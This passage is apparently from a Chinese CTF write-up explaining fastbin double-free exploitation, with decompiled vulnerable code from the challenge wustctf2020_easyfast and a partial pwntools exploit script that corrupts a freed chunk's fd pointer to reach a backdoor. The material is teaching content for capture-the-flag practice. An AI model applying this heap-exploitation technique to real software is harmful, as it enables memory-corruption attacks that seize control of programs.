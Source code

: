 ![image-20220326180425774](https://s2.loli.net/2022/03/27/8IEHV6UPFXJjZDu.png)

#### 注意

**至于为什么给data前两个数组赋值，因为系统会检查目的地的堆块size是否与我们即将要分配的size是否是一致的，data[0]是prev_size大小，其实多少都可以，因为fastbin不使用它，data[1]是size大小，我们即将要分配的0x10，但是系统实际会分配0x20，所以我们要赋值0x21，最末尾的1是fastbin特性标志位，不占大小，只起标志的作用（实际使用fastbin要构造特定大小）**

### 例题wustctf2020_easyfast

![image-20220327095708938](https://s2.loli.net/2022/03/27/jy9GuSetnNWkfJa.png)

菜单题，漏洞主要出现在free函数上

```
unsigned __int64 free_0()
{
  __int64 v1; // [rsp+8h] [rbp-28h]
  char s[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  puts("index>");
  fgets(s, 8, stdin);
  v1 = atoi(s);
  free(*(&buf + v1));//这里free没有检查之前有没有free过，可以造成double  free,其实也存在UAF
  return __readfsqword(0x28u) ^ v3;
}
```

### 思路

利用原理，先创造两个堆块0和1,然后先后释放堆块0、堆块1、堆块0，造成堆块0的double free，然后我们在申请一个堆块2，堆块2会先占用最后释放堆块0的位置，并且给堆块2赋值backdoor的地址，这样下次再使用堆块2（即堆块0）的时候就会在backdoor上填充内容，然后在申请堆块3，4分别填充前面释放的两次堆块的位置，当我们再次申请堆块5的时候，因为指针0的fd之前已经被我们修改为backdoor地址，所以堆块5会在backdoor上开辟一个堆，我们在这个堆上利用edit函数修改即修改backdoor上的内容为0即可通过后门拿到shell

### EXP：

```
# -*- coding: utf-8 -*-
from pwn import *
context.log_level='debug'
p=process('./wustctf2020_easyfast')
backdoor=0x00602090
target_addr=0x602080	#前0x10是prev_size和size位，并且fd->target
def add(size):
	p.sendlineafter("choice>",'1')
	p.sendlineafter("size>",str(size))
def delete(index):
	p.sendlineafter("choice>",'2')
	p.sendlineafter("index>",str(index))
def write(index,size):
	p.sendlineafter("choice>",'3')
	p.recvuntil("index>")
	p.sendline(str(index))
	p.sendline(str(size))
def backdoor():
	p.sendlineafter("choice>",'4')
add(0x40)	#0
add(0x40)	#1
delete(0)
delete(1)
delete(0)
add(0x40)	#2
write(2,p64(target_addr))
```